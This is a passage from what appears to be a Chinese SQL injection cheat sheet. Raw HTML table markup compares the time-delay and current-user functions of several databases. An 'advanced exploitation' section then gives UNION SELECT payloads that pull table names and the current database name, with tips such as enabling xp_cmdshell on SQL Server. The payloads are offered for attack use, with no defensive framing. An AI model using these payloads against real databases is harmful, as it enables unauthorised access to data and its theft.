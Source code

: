 <td data-colwidth="151" width="151" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">DBMS_LOCK.SLEEP(5)</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="122" width="122" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">WAITFOR DELAY</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="119" width="119" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">无原生支持</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="71" width="71" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">系统用户</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="111" width="111" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">user()</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="98" width="98" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">current_user</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="151" width="151" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">SYS_CONTEXT</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="122" width="122" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">CURRENT_USER</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="119" width="119" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="text-align:justify;mso-pagination:none;text-justify:inter-ideograph;"><span style=""><font face="方正小标宋_GBK"><span leaf="">无直接获取方式</span></font></span><span style=""><o:p></o:p></span></p></td></tr></tbody></table>  
  
四、高级利用技巧  
  
1. 跨数据库通用Payload  
  
  
获取所有数据库类型用户表名（需权限）  
  
' UNION SELECT table_name, NULL FROM information_schema.tables --   
  
  
获取当前数据库名  
  
' UNION SELECT database(), NULL --   
  
      
  
注意事项  
  
 Oracle的复杂语法需严格处理表名和别名（必须使用FROM DUAL）  
  
 SQL Server默认禁用xp_cmdshell，需先启用  
  
 PostgreSQL的权限控制严格，需高权限账户  
  
 SQLite无原生网络功能，需结合其他漏洞利用  
  
